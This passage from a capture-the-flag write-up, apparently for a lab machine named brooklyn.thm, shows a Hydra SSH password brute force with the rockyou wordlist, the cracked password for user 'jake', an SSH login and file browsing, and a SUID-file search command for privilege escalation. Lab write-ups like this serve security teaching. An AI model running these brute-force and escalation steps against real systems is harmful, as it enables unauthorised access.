 We use brute force tool: Hydra with parameters: Jake and dictionary (rockyou).

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt brooklyn.thm ssh
```

```bash
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-24 05:56:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://brooklyn.thm:22/
[22][ssh] host: brooklyn.thm   login: jake   password: 987654321
```

{% hint style="info" %}
jake::987654321
{% endhint %}

We can use the credentials obtained for ssh access:

```bash
ssh jake@brooklyn.thm
jake@brooklyn.thm's password: 
Last login: Tue May 26 08:56:58 2020
```

```bash
jake@brookly_nine_nine:~$ pwd
/home/jake
jake@brookly_nine_nine:~$ whoami
jake
jake@brookly_nine_nine:~$ ls
jake@brookly_nine_nine:~$ cd ..
jake@brookly_nine_nine:/home$ ls
amy  holt  jake
jake@brookly_nine_nine:/home$ cd holt
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
jake@brookly_nine_nine:/home/holt$ cat user.txt
```

<details><summary>🚩 Flag 1 (user.txt)</summary></details>

#### Task 3 - Find the Root flag

Now, we need to get root permissions to explore the root folder.

We can use the following command to list SUID files or sudo -l command:

```
find / -user root -perm -4000 -exec ls -ldb {} \;
```
